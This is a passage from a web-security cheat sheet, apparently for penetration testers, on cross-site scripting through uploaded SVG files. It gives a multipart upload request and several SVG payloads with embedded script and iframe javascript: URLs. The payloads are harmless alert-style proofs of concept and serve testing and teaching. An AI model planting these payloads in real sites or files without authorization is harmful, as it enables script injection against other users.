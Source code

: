 Example [**writeup XSS in Amp4Email in Gmail**](https://adico.me/post/xss-in-gmail-s-amp4email).

### XSS uploading files (svg)

Upload as an image a file like the following one (from [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)):

```html
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
```

```html
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
```

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

```svg
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
  </foreignObject>
</svg>
```
